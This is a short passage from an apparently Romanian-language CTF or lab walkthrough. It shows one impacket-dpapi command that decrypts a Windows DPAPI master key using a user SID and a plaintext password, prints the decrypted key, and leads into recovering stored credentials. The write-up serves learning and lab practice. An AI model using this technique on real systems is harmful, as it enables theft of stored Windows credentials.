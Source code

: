 Fig. 38

Prima comanda pe care o sa o folosim este 

*impacket-dpapi masterkey -file MasterKey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'*

![Fig. 39](./image-38.png)

Fig. 39

*Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84*

Acum cu cheia decriptata putem sa obtinem credidentialele. 

O sa salvam cheia ca variabila si o sa aplicam dpapi pentru primul fisier. 

![Fig. 40](./image-39.png)

Fig. 40
